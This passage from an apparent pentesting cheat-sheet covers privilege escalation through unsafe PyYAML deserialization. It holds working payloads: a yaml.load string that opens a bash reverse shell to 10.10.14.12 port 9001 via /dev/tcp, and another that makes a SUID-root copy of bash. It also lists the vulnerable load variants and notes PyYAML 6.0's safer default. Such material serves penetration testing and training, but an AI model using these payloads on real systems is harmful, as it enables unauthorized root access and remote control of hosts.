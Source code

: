 ```bash
sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py
```

Check if we have control over the input of a vulnerable function

```python
import yaml

filename = "example.yml"
yaml.load()
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code. here are example of some payloads:

```python
#Reverse shell
import yaml
from yaml import Loader, UnsafeLoader
yaml.load('!!python/object/new:os.system ["bash -c \'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1\'"]',Loader=Loader)

#SUID bit on bash
data = b'!!python/object/new:os.system ["cp `which bash` /tmp/bash;chown root /tmp/bash;chmod u+sx /tmp/bash"]'
yaml.load(data)
yaml.load(data, Loader=Loader)
yaml.load(data, Loader=UnsafeLoader)
yaml.load_all(data)
yaml.load_all(data, Loader=Loader)
yaml.load_all(data, Loader=UnsafeLoader)
yaml.unsafe_load(data)
```

{% hint style="danger" %}
Since PyYaml **version 6.0**, the default loader for load has been switched to **`SafeLoader`** mitigating the risks against Remote Code Execution. The vulnerable sinks are now **`yaml.unsafe_load`** and **`yaml.load(input, Loader=yaml.UnsafeLoader)`**
{% endhint %}
{% endtab %}
{% endtabs %}

## References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/" %}

{% embed url="https://mikadmin.fr/blog/linux-privilege-escalation-python-library-hijacking/" %}

{% embed url="https://www.stackhawk.com/blog/command-injection-python/" %}

{% embed url="https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/" %}
